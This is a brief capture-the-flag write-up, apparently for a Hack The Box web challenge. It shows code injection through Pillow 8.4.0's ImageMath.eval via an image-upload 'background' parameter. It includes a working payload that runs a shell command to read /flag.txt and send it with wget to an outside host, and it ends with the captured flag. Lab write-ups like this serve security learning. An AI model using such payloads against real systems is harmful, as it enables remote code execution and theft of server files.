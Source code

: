 # [Web] Amidst us

Amidst Us is an application that allows users to upload images. We got access to the source code and know it is running `Pillow==8.4.0`.

Running the application as a user, we can get the HTTP call as a `curl` call:

![Curl](./img/web_amidst_1.png)

From the source code, we see that the parameters from the `background` variable, are inserted into an `ImageMath.eval`:

![Source](./img/web_amidst_2.png)

This is an infamous [vulnerability](https://github.com/python-pillow/Pillow/pull/5923): we can inject code into the `eval` in order to get the application run it for us. Let’s try with the `background` variable, with the payload:

```
exec(a="wget -q http://1.2.3.4:4444/?a=`cat /flag.txt`;import os;os.system(a))")
```

![Exploit](./img/web_amidst_3.png)

We do receive a callback, with the flag `HTB{i_slept_my_way_to_rce}`:

![Profit](./img/web_amidst_4.png)
